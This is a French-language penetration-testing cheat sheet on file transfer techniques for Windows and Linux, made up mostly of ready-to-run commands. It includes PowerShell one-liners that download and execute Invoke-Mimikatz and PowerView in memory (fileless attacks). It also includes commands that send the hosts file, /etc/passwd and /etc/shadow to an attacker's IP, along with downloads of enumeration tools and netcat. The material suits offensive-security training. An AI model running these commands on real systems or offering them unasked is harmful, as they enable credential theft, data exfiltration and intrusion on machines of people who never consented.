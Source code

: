 # Méthodes de transfert de fichiers Windows
## Méthode PowerShell DownloadFile

### Téléchargement de fichier

```PowerShell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

### PowerShell DownloadString – Méthode sans fichier

Comme nous l'avons vu précédemment, les attaques sans fichier utilisent certaines fonctions du système d'exploitation pour télécharger la charge utile et l'exécuter directement. PowerShell peut également être utilisé pour réaliser des attaques sans fichier. Au lieu de télécharger un script PowerShell sur le disque, nous pouvons l'exécuter directement en mémoire à l'aide de l' applet de commande Invoke-Expression ou de l'alias IEX.

```Powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

À partir de PowerShell 3.0, l' applet de commande Invoke-WebRequest est également disponible, mais son téléchargement est sensiblement plus lent. Vous pouvez utiliser les alias iwr, curl et wget au lieu du Invoke-WebRequest .

```Powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### Erreurs courantes avec PowerShell
Il peut arriver que la configuration du premier lancement d'Internet Explorer n'ait pas été effectuée, ce qui empêche le téléchargement.

```Powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

### Copier un fichier depuis le serveur SMB

```Powershell
copy \\192.168.220.133\share\nc.exe
```

## Téléchargements FTP
### Script PowerShell pour télécharger un fichier sur le serveur de téléchargement Python

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

# Méthodes de transfert de fichiers Linux

Linux est un système d'exploitation polyvalent, doté de nombreux outils permettant de transférer des fichiers. Comprendre les méthodes de transfert de fichiers sous Linux peut aider les attaquants et les défenseurs à améliorer leurs compétences en matière d'attaques réseau et de prévention des attaques sophistiquées.


## Téléchargements Web avec Wget et cURL

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

```bash
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Linux - Téléchargement de fichiers avec SCP

```bash
scp plaintext@192.168.49.128:/root/myroot.txt . 
```

### Linux - Télécharger plusieurs fichiers

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

### Transfert de fichiers avec du code
Il est courant de trouver différents langages de programmation installés sur les machines ciblées. Des langages tels que Python, PHP, Perl et Ruby sont couramment disponibles sur les distributions Linux, mais peuvent également être installés sur Windows, bien que ce soit beaucoup plus rare.

#### Python

```bash
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP

```bash
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

### Transferts de fichiers protégés




https://gist.github.com/HarmJ0y/bb48307ffa663256e239